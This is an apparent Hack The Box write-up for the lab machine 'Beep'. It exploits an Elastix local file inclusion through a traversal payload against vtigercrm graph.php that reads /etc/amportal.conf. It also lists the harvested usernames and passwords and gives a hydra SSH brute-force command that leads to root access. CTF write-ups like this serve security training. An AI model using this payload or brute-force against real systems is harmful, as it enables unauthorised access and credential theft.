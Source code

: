```yaml
---
title: 'HTB: Beep'
date: '2025-04-26'
excerpt: ''
readingTime: 1
tags: ['HTB', 'Writeup', 'HTB', 'Writeup', 'Easy', 'Linux', 'Web', 'Pwn']
author: 'pir4cy'
coverImage: '/images/htb/covers/beep-cover.png'
---
```


# Beep

## Info  
  * IP: 10.10.10.7
  * OS: Linux
  * Difficulty: Easy

## System Enumeration

### NMAP

![Beep Nmap](/images/htb/machines/Beep/nmap.png "NMAP")


### Web Page

![Beep WebPage](/images/htb/machines/Beep/webpage.png "Web Page")


## Exploitation

Since our webpage is an Elastix login, we should simply check if an exploit for elastix exists.  
Using `searchsploit elastix` we find:

![SearchSploit](/images/htb/machines/Beep/searchsploit.png "Searchsploit Output")


Trying out the local file inclusion vulnerability

![Exploit Documentation](/images/htb/machines/Beep/exploitcode.png "LFI graph.php")


`LFI Exploit: /vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action`  

After appending this address to the web portal `10.10.10.7` we can see the `amportal.conf` file which consists of important user data.  
Simply viewing the source code, we see the data in a readable format

![Exploit Page Source Code](/images/htb/machines/Beep/exploitpage.png "Source Code")


So we make 2 lists for possible users and passwords


#### Users.txt(users on my local machine)

  ```
  root
  mysql
  cyrus
  asterisk
  spamfilter
  fanish
  ```

#### password.txt(pws on my local machine)

  ```
  asterisk
  amp109
  jEhdIekWmdjE
  passw0rd
  ```


### Hydra

After creating the lists of users and passwords we simply run Hydra to check possible ssh combinations.  
Using the command:  
`hydra -L users -P pws ssh://10.10.10.7`

![Hydra](/images/htb/machines/Beep/hydra.png "Hydra")


### Root Owned

Now we simply ssh, with the password that we got as root and we're in

![Rooted](/images/htb/machines/Beep/owned.png "Pwnage")


Simply traverse to the `/root` directory for `root.txt` and to `home/fanis` for `user.txt`


